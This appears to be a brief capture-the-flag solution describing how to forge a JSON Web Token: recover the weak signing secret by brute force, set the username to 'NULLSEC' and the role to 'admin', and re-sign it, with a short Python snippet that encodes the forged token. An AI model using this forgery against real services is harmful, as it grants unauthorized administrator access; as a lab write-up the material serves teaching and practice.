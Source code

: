 # Solution

1. Get the JWT from the cookie.
2. Brute force the secret, till jwt is valid
3. Change the username to `NULLSEC` and role to `admin`
4. Create a new JWT with the new payload and the secret

```py
import jwt

secret = "secret123"

payload = {
    "username": "NULLSEC",
    "role": "admin",
    "exp": 0000000000 #change this
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
